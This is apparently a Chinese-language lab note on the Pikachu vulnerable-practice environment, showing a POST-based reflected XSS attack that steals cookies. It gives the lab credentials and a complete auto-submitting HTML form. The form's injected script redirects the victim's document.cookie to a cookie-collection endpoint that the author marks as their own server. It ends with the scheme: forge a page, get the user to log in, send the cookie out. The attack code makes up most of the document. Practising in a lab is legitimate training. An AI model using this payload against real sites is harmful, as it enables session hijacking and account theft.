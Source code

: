 ## POST获取cookie
### 1、登陆pikachu的实验环境
```shell script
http://172.16.120.252:8085/vul/xss/xsspost/post_login.php
admin
123456
```
### 2、在vscode里面一段php代码
创建一个伪页面：http://172.16.120.252:8085/vul/xss/xsspost/xss_reflected_post.php
用户登陆之后，会把cookie，发送到自己的服务器：http://172.16.120.252:8085/pkxss/xcookie/cookie.php?cookie=
```shell script
<html>
  <head>
    <script>
        window.onload = function () { 
            document.getElementById("magedu_xss_post_test").click();
        };
    </script>
    </head>
    <body> 
        <form method="post" action="http://172.16.120.252:8085/vul/xss/xsspost/xss_reflected_post.php" >  ## 和第一步的地址一样
            <input 
                id="xssr_in"  
                type="text" 
                name="message" 
                value="<script>
                document.location = 'http://172.16.120.252:8085/pkxss/xcookie/cookie.php?cookie=' + document.cookie;  # 这行的ip地址，是自己的服务器的ip地址，接收cookie的
                </script>"
            />
            <input 
                id="magedu_xss_post_test" 
                type="submit" 
                name="submit" 
                value="submit" 
            /> 
        </form>
    </body>
</html>
```
### 3、原理：
````yaml
1、仿造页面
2、让用户，在仿造的页面，使用用户名和密码登陆
3、登陆成功之后，发送cookie到自己的服务器
````
